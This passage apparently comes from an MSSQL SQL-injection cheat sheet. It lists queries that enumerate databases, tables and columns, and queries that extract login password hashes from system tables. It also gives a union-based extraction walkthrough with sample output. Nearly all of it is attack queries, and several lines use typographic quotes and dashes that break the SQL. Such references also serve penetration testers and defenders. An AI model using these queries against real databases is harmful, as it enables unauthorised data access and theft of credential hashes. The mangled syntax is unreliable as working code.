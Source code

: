 ```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```

## MSSQL List columns

```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
```

## MSSQL List tables

```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
```

## MSSQL Extract user/password

```sql
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

## MSSQL Union Based

```sql
-- extract databases names
$ SELECT name FROM master..sysdatabases
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName

-- Finally extract the data
$ SELECT  UserId, UserName from Users
```